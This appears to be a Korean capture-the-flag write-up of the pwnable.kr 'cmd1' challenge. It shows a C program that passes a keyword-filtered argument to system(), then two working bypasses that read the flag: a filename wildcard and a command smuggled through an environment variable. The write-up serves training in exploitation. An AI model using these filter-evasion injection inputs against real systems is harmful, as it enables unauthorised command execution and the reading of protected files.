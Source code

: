 # 문제
Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)

---
# 개요
```
cmd1@ubuntu:~$ ls
cmd1  cmd1.c  flag
cmd1@ubuntu:~$ cat cmd1.c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```
---
# 분석
strstr 함수를 사용하여 "flag", "sh", "tmp"를 필터링합니다.
필터링 된 인자는 system 함수를 통해 실행되는데 여기서 Command Injection 취약점이 발생합니다. 여러가지 풀이 방법이 있지만 간단하게 와일드 카드를 사용하여 풀이가 가능합니다.
```
cmd1@ubuntu:~$ ./cmd1 "/bin/cat fla*"
mommy now I get what PATH environment is for :)
```
또한 환경변수를 이용한 방법도 있습니다.
```
cmd1@ubuntu:~$ export secretpack="/bin/cat /home/cmd1/flag"
cmd1@ubuntu:~$ ./cmd1 \${secretpack}
mommy now I get what PATH environment is for :)
cmd1@ubuntu:~$
```
